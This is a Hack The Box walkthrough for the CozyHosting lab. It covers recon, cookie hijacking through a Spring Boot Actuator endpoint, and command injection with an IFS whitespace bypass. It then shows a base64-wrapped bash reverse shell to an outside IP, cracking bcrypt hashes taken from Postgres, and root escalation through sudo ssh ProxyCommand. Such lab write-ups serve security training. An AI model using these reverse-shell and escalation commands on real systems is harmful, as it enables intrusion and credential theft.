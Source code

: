 ```yaml
---
layout: single
title: CozyHosting - Hack The Box
excerpt: "CozyHosting is an easy-difficulty Linux machine that features a 'Spring Boot' application. The application has the 'Actuator' endpoint enabled. Enumerating the endpoint leads to the discovery of a user&amp;#039;s session cookie, leading to authenticated access to the main dashboard. The application is vulnerable to command injection, which is leveraged to gain a reverse shell on the remote machine. Enumerating the application 'JAR' file, hardcoded credentials are discovered and used to log into the local database. The database contains a hashed password, which once cracked is used to log into the machine as the user 'josh'. The user is allowed to run 'ssh' as 'root', which is leveraged to fully escalate privileges."
date: 2025-05-12
classes: wide
header:
  teaser: /img2/cozyhosting.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Cookie Hijacking
  - Command Injection + Filter Bypass
  - JAR archive inspection with JD-GUI + Information Leakage
  - PostgreSQL Database Enumeration
  - Cracking Hashes
  - Abusing Sudoers Privilege (ssh) [Privilege Escalation]
---
```



## Reconnaissance

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.230
```

![](/img2/Pasted%20image%2020250512101440.png)

- Add domain to local DNS

```bash
echo "10.10.11.230 cozyhosting.htb" >> /etc/hosts
```

- Whatweb

```bash
whatweb http://cozyhosting.htb
```

![](/img2/Pasted%20image%2020250512101928.png)

- Dirsearch 

```bash
dirsearch -u http://cozyhosting.htb
```

![](/img2/Pasted%20image%2020250512110733.png)

## Exploitation

- Cookie Hijaking 

![](/img2/Pasted%20image%2020250512110918.png)

![](/img2/Pasted%20image%2020250512111041.png)

- RCE

![](/img2/Pasted%20image%2020250512113314.png)

![](/img2/Pasted%20image%2020250512113358.png)

> We can see the output command in the error

![](/img2/Pasted%20image%2020250512113618.png)

```bash
tcpdump -i tun0 icmp
```

![](/img2/Pasted%20image%2020250512113743.png)

> We can bypass whitespaces with IFS variable

- Send reverse shell

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.16.2/9000 0>&1'" | base64
```

![](/img2/Pasted%20image%2020250512115021.png)

## Post-exploitation

- Inspect .jar file

```bash
python3 -m http.server 8000
```

```bash
curl -o cozy.jar http://10.10.11.230:8000/cloudhosting-0.0.1.jar
```

- Connect to Postgresql Database

```bash
jd-gui
```

![](/img2/Pasted%20image%2020250512120446.png)

```bash
psql -h localhost -U postgres -d cozyhosting
```

```sql
select * from users;
```

![](/img2/Pasted%20image%2020250512121534.png)

```
$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6e
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

![](/img2/Pasted%20image%2020250512121722.png)

- Pivoting

```bash
su josh
```

- Sudoers

```bash
sudo -l
```

![](/img2/Pasted%20image%2020250512122137.png)

```bash
sudo ssh -o ProxyCommand=';bash 0<&2 1>&2' x
```

![](/img2/Pasted%20image%2020250512122042.png)